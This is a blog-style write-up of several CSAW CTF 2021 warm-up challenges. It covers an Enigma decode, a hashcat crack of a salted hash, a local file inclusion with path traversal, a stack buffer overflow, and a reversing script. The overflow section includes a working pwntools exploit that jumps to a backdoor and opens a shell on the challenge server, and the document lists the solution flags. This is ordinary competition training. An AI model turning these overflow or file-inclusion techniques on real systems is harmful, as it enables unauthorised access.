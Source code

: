 +++
title = "CSAW CTF Qualification Round 2021 - warm-up"
date = 2021-09-13
[taxonomies]
categories = ["ctfs"]
tags = ["csawctf2021"]
+++

# Turing

## Task description

Recruiting the next Turing. See if you can break this historic cipher! Ciphertext: `jmodtrr_tdwumtu_cydy_ynsldf` You might need this: M3 UKW B

## Solution

[enigma online decoder](https://cryptii.com/pipes/enigma-decoder) \
foreign chars: include

flag: `flag{scruffy_looking_nerf_herder}`

# Crack Me

## Task description

Can you crack this? Your hash: `a60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c`. Your salt: the encryption method of the hash. (So if the hash is of the word example, you would submit flag{example} to score points.) UPDATE Friday 9PM: To streamline your efforts we would like to give you some more details about the format for the hash encryption method. An example: if you think the hash is RIPEMD-128, use ripemd128 for the salt.

## Solution

Using [hash identifier](https://hashes.com/en/tools/hash_identifier) I found out that it's a SHA256 hash.

Then I created a file for hashcat with the possible hashes (that was before the hint was added).

```
A60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c:sha256
A60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c:SHA256
```

And run it on the rockyou wordlist (-m flag explained [here](https://hashcat.net/wiki/doku.php?id=example_hashes)): \
`hashcat -m 1420 --show hashes.txt /usr/share/wordlists/rockyou.txt`

The output: \
`a60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c:sha256:cathouse`

Therefore, the flag is: `flag{cathouse}`

# poem-collection

## Task description

Hey! I made a cool website that shows off my favorite poems. See if you can find flag.txt somewhere!

## Solution

Unfortunately, the organizers took the ctf's infrastructure down right after it ended but basically the site was printing out a file based on the parameter poem. For example: `http://web.chal.csaw.io:5003/poems/?poem=poem.txt`. In addition, the first time you browse to the site (without any parameter) you see this warning `Warning: file_get_contents(): Filename cannot be empty in /var/www/html/poems/index.php on line 4`.

My first try was: `http://web.chal.csaw.io:5003/poems/?poem=index.php` which dumped the site's code. Then I just tried out `flag.txt` and `../flag.txt` which worked.

The flag: `flag{l0c4l_f1l3_1nclusi0n_f0r_7h3_w1n}`

# Password Checker

## Task description

Charlie forgot his password to login into his Office portal. Help him to find it. (This challenge was written for the person on your team who has never solved a binary exploitation challenge before! Welcome to pwning.)

[password_checker](/files/csawctf2021/warm-up/password_checker)

## Solution

Opening it up in ghidra, we see this decompiled code:

```c
undefined8 main(EVP_PKEY_CTX *param_1)
{
  init(param_1);
  password_checker();
  return 0;
}

void password_checker(void)
{
  undefined8 local_a8;
  undefined local_a0;
  char local_78 [48];
  char local_48 [60];
  int local_c;

  printf("Enter the password to get in: \n>");
  gets(local_48);
  strcpy(local_78,local_48);
  local_a8 = 0x64726f7773736170;
  local_a0 = 0;
  local_c = strcmp(local_78,(char *)&local_a8);
  if (local_c == 0) {
    printf("You got in!!!!");
  }
  else {
    printf("This is not the password");
  }
  return;
}
```

In addition, we find a very convenient function included.

```c
void backdoor(void)
{
  system("/bin/sh");
  return;
}
```

So, the password checking thing is a diversion, what we're really interested in is the fact that the application uses `gets` to read the line. Stack buffer overflow!

Now, to the exploitation. First, generate a cyclic pattern a bit longer than the buffer `gets` writes to:

```
pwn cyclic 80
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
```

Then, run load the app in gdb and enter the pattern. We get the expected segfault. Let's read the $rsp:

```
(gdb) x/x $rsp
0x7fffffffdf28: 0x61616173
```

Get the length:

```
pwn cyclic -l 0x61616173
72
```

The last thing we need is the backdoor function's address:

```
(gdb) info address backdoor
Symbol "backdoor" is at 0x401172 in a file compiled without debugging.
```

The exploit:

```py3
from pwn import *

# io = process("./password_checker")
io = remote("pwn.chal.csaw.io", 5000)

payload = b"A" * 72 # or just use cyclic_find(0x61616173)
payload += p64(0x00401172)

io.sendline(payload)

io.interactive()
```

The flag: `flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}`

# checker

## Task description

What's up with all the zeros and ones? Where are my letters and numbers? (This is a reversing challenge.)

[checker.py](/files/csawctf2021/warm-up/checker.py)

## Solution

I just reversed the algorithm in the main function by adding these lines after the definition of the encrypted flag:

```py3
encoded = encoded[::-1]
encoded = right(encoded, 24)
encoded = down(encoded)
encoded = right(encoded, len(encoded) - 24)

for i in range(0, len(encoded), 8):
    c = int(encoded[i : i + 8], base=2)
    print(chr(c >> 1), end="")
```

The flag: `flag{r3vers!nG_w@rm_Up}`
